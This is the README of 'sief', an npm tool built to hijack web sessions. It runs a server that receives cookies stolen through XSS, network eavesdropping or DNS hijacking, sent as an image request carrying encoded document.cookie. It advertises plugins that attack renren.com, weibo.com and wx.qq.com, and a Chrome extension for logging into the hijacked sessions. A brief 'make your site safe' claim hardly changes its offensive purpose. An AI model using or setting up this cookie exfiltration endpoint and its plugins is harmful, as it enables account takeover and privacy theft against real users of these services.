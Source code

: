 sief
=============

NOTICE: This project is under development, nut ready to use yet.

A server listening to cookie submission to hijack session, supporting writing plugins for site specific attacks.

    sief = thief + safe

This is a project to steal sessions, and to make your site safe.

## Features

* Request to an image to upload cookies stolen by xss/network eavsdropping/dns hijack/other.
* Log persistence
* Prebuilt plugins to attack renren.com, weibo.com, wx.qq.com
* Write your own plugin to do other attacks you desired
* View real-time cookie submissions and login those hijacked sessions directly in browser with a chrome extension.[Sief Chrome Extension](https://github.com/shaoshuai0102/sief-chrome-extension)

## Install

    npm install sief -g

## Usage

### Server

    Usage: sief [options] <plugin|dir ...>

    Options:

      -h, --help                   output usage information
      -V, --version                output the version number
      -i, --ignore-time [seconds]  specify seconds during which same requests will be ignored [300]
      -p, --port [port]            specify the port sief server listening to [3000]
      -l, --log-level [level]      set log level [INFO]


### Submit cookies

   GET /xxx.png?cookie=#cookies#&referer=#referer#&domain=#domani#

Parameters:

* `cookies` - Required. Encode cookies first, for example, `encodeURIComponent(document.cookies)`
* `referer` - If the attack is an xss exploit, referer will be retrieved from `headers.referer` directly, otherwise, specifiy it in query string.
* `domain` - Domain is calculated from referer, defaults to main domain, for example `qq.com`. IF you want to fire a attack to its subdomain(`wx.qq.com`), specify it in query string.
